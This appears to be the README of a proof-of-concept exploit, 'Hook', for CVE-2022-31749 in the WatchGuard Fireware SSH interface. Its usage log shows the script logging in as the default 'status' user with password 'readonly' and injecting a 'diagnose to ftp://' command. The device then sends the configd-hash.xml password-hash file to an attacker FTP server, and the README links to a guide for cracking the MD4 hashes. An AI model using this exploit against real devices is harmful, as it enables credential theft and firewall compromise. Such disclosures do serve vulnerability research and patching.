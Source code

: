 # Hook

Hook exploits a parameter injection vulnerability in the WatchGuard SSH interface. The vulnerability allows a low privileged user to exfiltrate arbitrary system files to an attacker controlled FTP server. Fortunately, there is a builtin low privileged user named `status` that this script defaults to. It isn't unreasonable to assume that the `status` user will use a password of `readonly`, but it isn't required.

Hook exfiltrates the user file `configd-hash.xml`. This file contains hashed user passwords. The hashes are simply unsalted MD4. `funoverip` [described](https://web.archive.org/web/20160522043540/http://funoverip.net/2013/09/cracking-watchguard-passwords/) using hashcat to crack the hashes in this file all the way back in 2013.

## Example Usage

```
albinolobster@ubuntu:~/hook$ python3 hook.py --lhost 10.12.70.251 --rhost 10.12.70.249
   0101010001101000 0110010100100000 0110100001101111
   0110111101101011 0010000001100010 0111001001101001
    ,ggg,        gg                                     
   dP""Y8b       88                           ,dPYb,    
   Yb, `88       88                           IP'`Yb    
    `"  88       88                           I8  8I   
        88aaaaaaa88                           I8  8bgg, 
        88"""""""88    ,ggggg,     ,ggggg,    I8 dP" "8 
        88       88   dP"  "Y8ggg dP"  "Y8ggg I8d8bggP" 
        88       88  i8'    ,8I  i8'    ,8I   I8P' "Yb, 
        88       Y8,,d8,   ,d8' ,d8,   ,d8'  ,d8    `Yb,
        88       `Y8P"Y8888P"   P"Y8888P"    88P      Y8
   0110111001100111 0111001100100000 0111100101101111
   0111010100100000 0110001001100001 0110001101101011

                       jbaines-r7                    
                     CVE-2022-31749                  
                           🦞                        

[+] Spinning up FTP server thread
[I 2022-06-16 12:58:39] concurrency model: async
[I 2022-06-16 12:58:39] masquerade (NAT) address: None
[I 2022-06-16 12:58:39] passive ports: None
[I 2022-06-16 12:58:39] >>> starting FTP server on 10.12.70.251:1270, pid=19473 <<<
diagnose to ftp://r7:1270/r7
--
-- WatchGuard Fireware OS Version 12.1.3.B658867
-- Support: https://www.watchguard.com/support/supportLogin.asp
-- Copyright (C) 1996-2022 WatchGuard Technologies Inc.
--
WG>diagnose to ftp://r7:1270/r7
Name: 
albinolobster
Password: 
[I 2022-06-16 12:58:46] 10.12.70.249:52588-[] FTP session opened (connect)
[I 2022-06-16 12:58:46] 10.12.70.249:52588-[albinolobster] USER 'albinolobster' logged in.
[I 2022-06-16 12:58:46] 10.12.70.249:52588-[albinolobster] STOR /home/albinolobster/hook/configd-hash.xml completed=1 bytes=249 seconds=0.001
[I 2022-06-16 12:58:46] 10.12.70.249:52588-[albinolobster] FTP session closed (disconnect).

WG>
[!] Done
albinolobster@ubuntu:~/hook$ file configd-hash.xml 
configd-hash.xml: gzip compressed data, max speed, from Unix, original size modulo 2^32 587
albinolobster@ubuntu:~/hook$ mv configd-hash.xml configd-hash.xml.gz
albinolobster@ubuntu:~/hook$ gunzip configd-hash.xml.gz 
albinolobster@ubuntu:~/hook$ cat configd-hash.xml 
<?xml version="1.0"?>
<users>
  <version>3</version>
  <user name="admin">
    <enabled>1</enabled>
    <hash>628427e87df42adc7e75d2dd5c14b170</hash>
    <domain>Firebox-DB</domain>
    <role>Device Administrator</role>
  </user>
  <user name="status">
    <enabled>1</enabled>
    <hash>dddbcb37e837fea2d4c321ca8105ec48</hash>
    <domain>Firebox-DB</domain>
    <role>Device Monitor</role>
  </user>
  <user name="wg-support">
    <enabled>0</enabled>
    <hash>dddbcb37e837fea2d4c321ca8105ec48</hash>
    <domain>Firebox-DB</domain>
    <role>Device Monitor</role>
  </user>
</users>
albinolobster@ubuntu:~/hook$ 
```

## Credit

* [Blues Traveler](https://www.youtube.com/watch?v=pdz5kCaCRFM)
